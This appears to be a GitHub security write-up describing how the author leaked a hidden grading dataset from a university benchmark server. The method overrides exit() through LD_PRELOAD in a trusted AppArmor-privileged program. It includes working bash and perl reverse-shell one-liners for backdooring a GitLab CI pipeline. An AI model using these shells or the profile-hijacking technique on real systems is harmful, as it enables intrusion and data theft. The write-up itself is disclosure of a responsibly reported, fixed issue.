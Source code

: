 # Abstract

**Extracting secret data protected by an AppArmor profile by injecting a custom library function with `LD_PRELOAD`.**


This is a TUM internal exploit, but I'm still publishing this writeup for educational purposes, as I consider both the security set-up and the exploitation strategy interesting.

<img src="img/AppArmor.png" alt="AppArmor" width="200"/>

[AppArmor](https://www.apparmor.net/) is a Linux kernel security module that offers *per-program* security policies.
Programs are identified by **path**. Authorized programs can switch between different security policies at runtime.


## Background
The set-up can roughly be explained as follows:

The Students have to write a highly optimized C++ program that can parse multiple gigabytes of data in just a few milliseconds (by using SIMD/AVX instructions).
They push their source code to a GitLab instance, which then builds and tests their solution against a hidden dataset, so that the students can not cheat by hardcoding the answer.
The only piece of information they get back is whether their submission was a success or failure.
If their submission is fast enough, they get a grade bonus for the exam.

If one were able to leak the test dataset, one could either hard-code an answer, or optimize ones submission against the test dataset, claiming pole position on the leaderboard.

As the students are able to submit arbitrary code, a special solution was devised to keep them from leaking the hidden dataset:
1. The student program is compiled and uploaded to the test server. In this case the test server is an actual physical machine, so that benchmark results are reported accurately. It offers access to an *unprivileged* user account, that is not allowed to read the test dataset, but can otherwise freely use the system.

2. A special, *trusted* `measure` program is accessible to the unprivileged user. The `measure` program can only be read or executed, but not modified.
It performs the following three crucial functions:
    1. It uses AppArmor to [change the active security profile](https://man.archlinux.org/man/aa_change_hat.2.en). The new security profile is allowed to access the test dataset, but not allowed to do any kind of I/O. Among other things, it blocks file system access, network operations and the stdout file descriptor.
    2. It logs the current system time, executes the untrusted user program, redirects its output into a buffer and logs the current time again, once the user program returns or times out.
    3. It swaps the security profile back to the unprivileged profile, compares the logged buffer content with the expected answer, and, if correct, uploads the time required by the user program to generate the answer to the leaderboard.
    It also prints feedback (the measured time required and whether the answer was correct) to stdout.

    
## Exploitation

### 1. Backdooring the GitLab CI/CD pipeline

This is not strictly necessary (and not exactly difficult since we control the GitLab `.gitlab-ci.yml`), but a reverse shell makes it much easier to inspect the system and debug our exploitation efforts on the spot, instead of having to wait for the entire CI/CD pipeline to run through after every change.

A quick reverse shell should be in the repertoire of every hacker.
My personal favorite being a simple:
```bash
sh -i >& /dev/tcp/target_address/target_port 0>&1
```
or alternatively with perl:
```perl
perl -e 'use Socket;$i="target_address";$p=target_port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
in case the first one is making problems.
You'll be surprised by how many systems and even minimalist dev-containers ship with perl installed.

In any case, inserting this into the deployment script leaves us with a simple, but functional reverse shell.\
You might also find this useful if you ever have to debug a CI/CD pipeline.

### 2. Inspecting the target program
Let us take a quick look at the Ghidra disassembler output of the relevant section of the `measure` program:
![measure](img/measure.png)

Line `92` swaps into the privileged profile. Line `129` swaps out of it.\
Line `122` executes the untrusted program.

The problem is that we can not simply call [`aa_change_hat()`](https://man.archlinux.org/man/aa_change_hat.2.en) ourselves.
The [AppArmor](https://www.apparmor.net/) kernel security module checks the binary origin path of the process executing the respective syscall.
If we were to call this function in our untrusted program (or any other program placed on the target machine), the security profile change would be *denied*. Only a process with the origin binary `/data/delivery/measure` (the path of the trusted measure program) may perform the hat change.

### 3. Bypassing AppArmor protection

How can we *become* the `measure` program?\
We can not overwrite or modify its binary and we can not access its memory at runtime.

We *do* control the *context* in which it is launched though.
Specifically, the **environmental variables** present at its launch.

An environmental variable with useful effects for our cause is the `LD_PRELOAD` variable.
It instructs the [dynamic linker](https://linux.die.net/man/8/ld-linux) to link a dynamic library from a specified path into any program that is launched while `LD_PRELOAD` is in context.

The hereby linked library **takes precedent** over any dynamic library that would *usually* be linked into the target program.

In our case, this allows us to supply the `measure` program with our own (and very excellent) implementation of the `libc` [`exit()`](https://www.man7.org/linux/man-pages/man3/exit.3.html) function:
[![solve](img/solve.png)](leak.cpp)

Instead of exiting the program as planned, this calls the `aa_change_hat()` function.\
This works, because we are now part of the trusted `measure` process, and therefore executing from the same source binary path.

After changing security profile, we are allowed to read the content of the secret `/opt/tpch/sf1/customer1.tbl` dataset.
As we are not allowed to print while in this profile, we have to save its content to an internal buffer.
We then swap the back the security profile and print to `stderr`, successfully leaking the secret dataset.

The issue has been reported responsibly and is fixed in the latest version.
